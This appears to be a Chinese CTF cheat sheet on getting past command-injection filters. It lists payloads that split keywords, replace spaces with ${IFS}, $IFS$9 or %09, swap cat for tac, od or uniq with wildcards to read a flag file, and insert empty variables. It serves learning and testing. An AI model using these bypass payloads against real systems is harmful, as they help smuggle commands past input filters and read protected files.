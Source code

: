 ### 关键词绕过

通过拆分命令达到绕过的效果

```
a=l;b=s;$a$b
```

#### 空格过滤

linux内置分隔符

```
${IFS},$IFS,$IFS$9
root # cat${IFS}flag
weqweqweqweqweqwe
root # cat$IFS$9flag
weqweqweqweqweqwe
（网上找的）
>   <   <>   重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09
该题只能用%09进行空格绕过
关键是：%，$,<  >  <>  .{  }这些字符是否过滤
```

### 

#### cat绕过

***\*more:一页一页的显示档案内容\*******\*
\*******\*less:与 more 类似\*******\*
\*******\*head:查看头几行\*******\*
\*******\*tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示\*******\*
\*******\*tail:查看尾几行\*******\*
\*******\*nl：显示的时候，顺便输出行号\*******\*
\*******\*od:以二进制的方式读取档案内容\*******\*
\*******\*vi:一种编辑器，这个也可以查看\*******\*
\*******\*vim:一种编辑器，这个也可以查看\*******\*
\*******\*sort:可以查看\*******\*
\*******\*uniq:可以查看\*******\*                 **uniq${IFS}f???.php**
\*******\*file -f:报错出具体内容\****

#### 空变量绕过

```
cat fl${x}ag
cat tes$(z)t/flag
```

#### 控制环境变量绕过
